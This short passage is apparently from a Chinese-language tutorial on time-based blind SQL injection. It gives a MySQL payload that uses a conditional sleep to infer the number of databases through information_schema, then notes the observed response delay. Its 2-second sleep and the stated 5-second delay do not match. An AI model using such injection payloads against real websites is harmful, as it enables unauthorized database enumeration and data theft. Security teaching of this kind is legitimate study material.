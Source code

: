 ![image-20250222022319425](static/image/image-20250222022319425.png)

### 时间盲注

> 基于时间来判断SQL语句是否执行，通俗的说就是执行一条带有延时功能的SQL语句。

#### 判断数据库数量

```mysql
AND IF((SELECT COUNT(schema_name) FROM information_schema.schemata)=1,sleep(2),0)
```

```
访问站点时，延迟了5秒。说明我们构造的注入语句执行了。
```
